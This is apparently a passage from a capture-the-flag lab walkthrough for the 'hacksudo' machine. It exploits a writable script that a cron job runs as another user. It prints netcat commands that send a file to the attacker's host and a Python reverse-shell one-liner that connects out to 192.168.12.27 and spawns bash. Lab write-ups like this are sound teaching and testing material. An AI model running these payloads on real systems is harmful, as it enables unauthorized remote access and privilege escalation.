








4.4 Gettin hackudo's shell (Third flag)
In the home of “vishal” user there are several directories. One of them is “office".
You're already on SSH connection.
1. List the “/home/vishal/office” directory.
cvishal@hacksudo:~$cd /home/vishal/office
vishal@hacksudo:~$ls -al
vishal@hacksudo:~$ls -al
Output:

There are two interesting files: “hacksudo” and “manage.sh”.
2. Open the files one by one.
vishal@hacksudo:~/office$cat hacksudo.c
Output:

The source code tells that the binary compiled from it would first set the setuid permission of the user executing it.
Then, it would run the “manage.sh” script.
vishal@hacksudo:~/office$cat manage.sh
Output:

The user has access to write on the “manage.sh” file. So, he can write any commands that would be executed by the user “hacksudo”.
3. See the cron jobs.
vishal@hacksudo:~/office$cat /etc/crontab
Output:

You can see that a script getmanager is being run by the user hacksudo every minute.
4. Look at the content of the binary “getmanager”.
# On your Kali Machine
$nc -nlvp 5555 > getmanager
$nc -nlvp 5555 > getmanager
# On target machine
nc 192.168.12.27 5555 < /home/hacksudo/getmanager
nc 192.168.12.27 5555 < /home/hacksudo/getmanager
On your Kali Machine do Ctrl+C and run the following command.
$strings getmanager
Output:

There's the same binary that we saw in the “office” directory of “vishal”. So, when this binary is executed the “manage.sh” file is run too.
5. Add this code to the “manage.sh” file.
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.12.27",5555));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' 
The new line added will spawn a “reverse shell” on the port 5555.
6. On your Kali Machine open a connection with “netcat”.
$nc -nlvp 5555
After a while you'll got a “reverse shell” as user “hacksudo”.
Output:

7. Get the flag.
hacksudo@hacksudo:~$cat user.txt
Output:
